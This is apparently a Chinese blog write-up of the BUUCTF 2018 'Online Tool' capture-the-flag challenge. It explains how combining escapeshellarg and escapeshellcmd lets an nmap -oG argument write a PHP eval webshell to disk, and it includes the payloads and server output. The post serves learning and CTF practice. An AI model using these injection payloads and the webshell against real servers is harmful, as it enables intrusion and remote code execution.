




<!--yml
category: 未分类
date: 2022-04-26 14:41:34
-->

# BUUCTF__[BUUCTF 2018]Online Tool_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/107393796](https://blog.csdn.net/tm_1024/article/details/107393796)

## 前言

*   今天看到了一位学长写的关于这题的wp。
*   有一句：`“我到底到什么时候，才能学会，看知识点写题，而不是看题解写题。”`
*   太真实了。。。有点迷。

## 研究

*   看题目源码就目标很明确，利用`$host` 变量`system()`命令执行

```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
} 
```

*   看到namp命令拼接经过`escapeshellarg`和`escapeshellcmd` 函数处理后的`$host`变量，很显然，这又是我不会的知识点。参考[这篇文章](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)

*   先去查`escapeshellarg`和`escapeshellcmd` 函数，这倒是没问题，可以知道这两个函数都是对变量进行转义或或者说转码。只不过有点不同而已。

*   `escapeshellarg`，会在字符串中所有的单引号（包括成对存在闭合的）前添加一个`'\'` ，若已经用`\`转义，则会用并且用`'\'` 替换`\`，最后将整个变量用单引号包裹。
    

*   `escapeshellcmd`，会将字符串中未被转义的双引号或单引号转义（成对存在闭合的双引号或单引号除外）若已被转义，则用`\\\"`或`\\\'`替`\"`或`\'`
    

*   知道处理规则，现在应该知道我们需要什么？？？

*   namp我知道可以用来扫描主机和端口，仅此而已。

*   原来，还可以写入文件。

*   利用namp的参数 `-oG` 可以将扫描结果输出到指定文件，也就是可以写入文件。 那就可以指定一个PHP文件。访问它就能解析php标签里的内容。

*   比如说一句话木马

    ```
    <?php  @eval($_POST['post']) ?> 
    ```

*   网上大多数的payload形式是这样的

    ```
    ' <?php eval($_POST["a"]);?> -oG 1.php ' 
    ```

*   但我实际复现却出现这种情况。无法被PHP解析。
    

*   然后有看到一个，把`^`替换为`\` ,就是处理后的内容，也就是这样

    ```
     \" \'\<\?php eval\(\$_POST\[ a \]\)\;\?\> -oG 1.php \'\" 
    ```

*   有注意到说最后`1.php '` 中间必须有一个空格，不然会导致文件名不对。

*   再因为单引号和双引号都是成对闭合，同时写入时会将`\`省略，最终写入就是

    ```
     <?php  @eval($_POST[a]) ?> 
    ```

*   传入变量`host`返回写入路径 `aa4d8ac4dba44974028dfe92183d6d5e`

    ```
    you are in sandbox aa4d8ac4dba44974028dfe92183d6d5eStarting Nmap 7.70 ( https://nmap.org ) at 2020-07-18 02:07 UTC Nmap done: 0 IP addresses (0 hosts up) scanned in 20.22 seconds Nmap done: 0 IP addresses (0 hosts up) scanned in 20.22 seconds 
    ```

*   然后用蚁剑连接 `题目url/aa4d8ac4dba44974028dfe92183d6d5e/1.php`，密码为`a`

*   就可以用`cat`命令看到 flag 以及写入的 1.php 的内容。
    

*   这里就学到了namp能写入文件吧，还有两个PHP函数的利用。

## 最后

*   在家学习效率极低，什么时候才能回学校啊。
*   附上[题目链接](https://buuoj.cn/challenges#%5BBUUCTF%202018%5DOnline%20Tool)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)